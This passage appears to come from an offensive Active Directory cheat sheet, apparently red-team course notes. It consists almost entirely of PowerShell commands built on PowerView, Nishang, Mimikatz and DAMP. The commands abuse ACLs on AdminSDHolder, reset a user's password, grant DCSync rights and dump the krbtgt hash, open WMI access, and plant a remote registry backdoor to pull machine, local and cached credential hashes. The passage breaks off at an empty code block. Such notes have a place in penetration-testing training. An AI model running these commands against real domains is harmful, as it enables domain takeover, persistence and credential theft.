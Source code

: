 ```powershell
#WriteMembers
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName abuqasem -Rights WriteMembers -Verbose
```
2. Abusing `ResetPassword`
```powershell
#Powerview module
Set-DomainUserPassword -Identity redgroup -AccountPassword (ConvertTo-SecureString "Abuqasem@123" -AsPlainText -Force) -Force
```
## Rights Abuse
With DA privileges,the ACL for the domain root can be modified to provide useful rights like `FullControl` or the ability to run `DCSync`
1. Add rights for `DCSync`
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=monrycorp,DC=local' -Principal abuqasem -Rights DCSync -Verbose
```
2. Get `krbtgt` hash
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp/krbtgt"'
```
## Security Descriptors
**ACLs can be modified to allow non-admin users  access to securable objects.**
- On local machine for the user.
```powershell
#Nishang module
Set-RemoteWMI -UserName abuqasem -Verbose
```
- On remote machine for the user without credentials.
```powershell
#Nishang module
Set-RemoteWMI -UserName abuqasem -ComputerName corp-dc -NameSpace 'root\cimv2' -Verbose
```
- On remote machine for the user with credentials (only root\\cimv2 and nested namespaces).
```powershell
#Nishang module
Set-RemoteWMI -UserName abuqasem -ComputerName corp-dc -Credential Administrator -NameSpace 'root\cimv2' -Verbose
```
- On remote machine remove permissions.
```powershell
#Nishang module
Set-RemoteWMI -UserName abuqasem -ComputerName corp-dc -NameSpace 'root\cimv2' -Remove -Verbose
```
### Remote registry
1. Using **DAMP** with admin privileges on remote machine.
```powershell
#DAMP module
Add-RemoteRegBackdoor -ComputerName corp-dc -Trustee abuqasem -Verbose
```
2. As `abuqasem`, retrieve machine account hash.
```powershell
#DAMP module
Get-RemoteMachineAccountHash -ComputerName corp-dc -Verbose
```
3. Retrieve local account hash.
```powershell
#DAMP module
Get-RemoteLocalHash -ComputerName corp-dc -Verbose
```
4. Retrieve domain cached credentials.
```powershell
#DAMP module
```